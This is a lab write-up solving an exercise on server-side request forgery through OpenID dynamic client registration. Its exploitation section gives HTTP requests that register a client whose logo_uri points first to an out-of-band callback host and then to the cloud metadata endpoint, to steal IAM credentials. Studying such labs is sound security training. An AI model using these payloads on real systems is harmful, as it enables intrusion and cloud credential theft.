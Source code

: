 # SSRF via OpenID dynamic client registration
# Objective
This lab allows client applications to dynamically register themselves with the OAuth service via a dedicated registration endpoint. Some client-specific data is used in an unsafe way by the OAuth service, which exposes a potential vector for SSRF.

To solve the lab, craft an SSRF attack to access `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/` and steal the secret access key for the OAuth provider's cloud environment.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
Website uses OAuth to allow users to log with their social account.

|![](Images/image-30.png)|
|:--:| 
| *OAuth login - OpenID scope* |
|![](Images/image-31.png)|
| *OpenId configuration - Registration endpoint disclosure* |
|![](Images/image-33.png)|
| *Application logo* |

OpenID configuration:
```json
{
  "authorization_endpoint": "https://oauth-0a6f00120425e15e857c0b77028f001d.oauth-server.net/auth",
  "claims_parameter_supported": false,
  "claims_supported": [
    "sub",
    "name",
    "email",
    "email_verified",
    "sid",
    "auth_time",
    "iss"
  ],
  "code_challenge_methods_supported": [
    "S256"
  ],
  "end_session_endpoint": "https://oauth-0a6f00120425e15e857c0b77028f001d.oauth-server.net/session/end",
  "grant_types_supported": [
    "authorization_code",
    "refresh_token"
  ],
  "id_token_signing_alg_values_supported": [
    "HS256",
    "ES256",
    "EdDSA",
    "PS256",
    "RS256"
  ],
  "issuer": "https://oauth-0a6f00120425e15e857c0b77028f001d.oauth-server.net",
  "jwks_uri": "https://oauth-0a6f00120425e15e857c0b77028f001d.oauth-server.net/jwks",
  "registration_endpoint": "https://oauth-0a6f00120425e15e857c0b77028f001d.oauth-server.net/reg",
  "response_modes_supported": [
    "form_post",
    "fragment",
    "query"
  ],
  "response_types_supported": [
    "code"
  ],
  "scopes_supported": [
    "openid",
    "offline_access",
    "profile",
    "email"
  ],
  "subject_types_supported": [
    "public"
  ],
  "token_endpoint_auth_methods_supported": [
    "none",
    "client_secret_basic",
    "client_secret_jwt",
    "client_secret_post",
    "private_key_jwt"
  ],
  "token_endpoint_auth_signing_alg_values_supported": [
    "HS256",
    "RS256",
    "PS256",
    "ES256",
    "EdDSA"
  ],
  "token_endpoint": "https://oauth-0a6f00120425e15e857c0b77028f001d.oauth-server.net/token",
  "request_object_signing_alg_values_supported": [
    "HS256",
    "RS256",
    "PS256",
    "ES256",
    "EdDSA"
  ],
  "request_parameter_supported": false,
  "request_uri_parameter_supported": true,
  "require_request_uri_registration": true,
  "userinfo_endpoint": "https://oauth-0a6f00120425e15e857c0b77028f001d.oauth-server.net/me",
  "userinfo_signing_alg_values_supported": [
    "HS256",
    "ES256",
    "EdDSA",
    "PS256",
    "RS256"
  ],
  "introspection_endpoint": "https://oauth-0a6f00120425e15e857c0b77028f001d.oauth-server.net/token/introspection",
  "introspection_endpoint_auth_methods_supported": [
    "none",
    "client_secret_basic",
    "client_secret_jwt",
    "client_secret_post",
    "private_key_jwt"
  ],
  "introspection_endpoint_auth_signing_alg_values_supported": [
    "HS256",
    "RS256",
    "PS256",
    "ES256",
    "EdDSA"
  ],
  "revocation_endpoint": "https://oauth-0a6f00120425e15e857c0b77028f001d.oauth-server.net/token/revocation",
  "revocation_endpoint_auth_methods_supported": [
    "none",
    "client_secret_basic",
    "client_secret_jwt",
    "client_secret_post",
    "private_key_jwt"
  ],
  "revocation_endpoint_auth_signing_alg_values_supported": [
    "HS256",
    "RS256",
    "PS256",
    "ES256",
    "EdDSA"
  ],
  "claim_types_supported": [
    "normal"
  ]
}
```


## Exploitation
Attacker can conduct SSRF attack via `logo_uri` by registering custom client application with `logo_uri` pointing to the target site.

|![](Images/image-32.png)|
|:--:| 
| *Successful custom client application registration* |
|![](Images/image-34.png)|
| *Successful custom client application registration with logo_uri* |
|![](Images/image-35.png)|
| *SSRF - request to logo_uri - access to secret file* |

Payload to verify out of band connectivity:
```
POST /reg HTTP/2
Host: oauth-0a6f00120425e15e857c0b77028f001d.oauth-server.net
Cookie: _interaction_resume=mJNt9AzUQ9HIoPe7e57xA; _session=J7M94To7dA4LGPyhh6lRd; _session.legacy=J7M94To7dA4LGPyhh6lRd
Content-Type: application/json
Content-Length: 135

{
    "redirect_uris" : [
        "https://test.test"
    ],
    "logo_uri" : "https://<id>.oastify.com"
}



GET /client/<Client_ID>/logo
[...]
```

Final payload:
```
POST /reg HTTP/2
Host: oauth-0a6f00120425e15e857c0b77028f001d.oauth-server.net
Cookie: _interaction_resume=mJNt9AzUQ9HIoPe7e57xA; _session=J7M94To7dA4LGPyhh6lRd; _session.legacy=J7M94To7dA4LGPyhh6lRd
Content-Type: application/json
Content-Length: 135

{
    "redirect_uris" : [
        "https://test.test"
    ],
    "logo_uri" : "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
}



GET /client/<Client_ID>/logo
```
